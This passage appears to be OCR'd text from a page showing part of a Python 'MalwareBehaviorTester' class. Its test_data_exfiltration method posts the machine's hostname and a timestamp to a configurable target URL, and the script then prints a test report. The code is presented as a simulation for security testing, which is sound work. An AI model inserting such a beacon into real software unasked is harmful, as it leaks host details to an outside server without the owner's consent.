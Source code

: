 ```python
    def test_data_exfiltration(self):
        """Simulate data exfiltration test"""
        test_data = {
            'hostname': os.uname().nodename,
            'timestamp': time.time(),
            'test_type': 'malware_simulation'
        }
        
        try:
            response = requests.post(
                self.target_site,
                json=test_data,
                timeout=10
            )
            result = {
                'test': 'data_exfiltration',
                'status': 'success',
                'data_sent': test_data,
                'response_code': response.status_code
            }
        except Exception as e:
            result = {
                'test': 'data_exfiltration',
                'status': 'failed',
                'error': str(e)
            }
        
        self.test_results.append(result)
        print(f"Data exfiltration test: {result['status']}")
        return result
    
    def generate_report(self):
        """Generate test report"""
        print("\n=== MALWARE BEHAVIOR TEST REPORT ===")
        for result in self.test_results:
            print(f"Test: {result['test']}")
            print(f"Status: {result['status']}")
            if 'error' in result:
                print(f"Error: {result['error']}")
            print("-" * 40)

# Run tests
tester = MalwareBehaviorTester()
tester.test_network_connectivity()
tester.test_data_exfiltration()
tester.generate_report()
```

---

## Cybersecurity Terms and Definitions
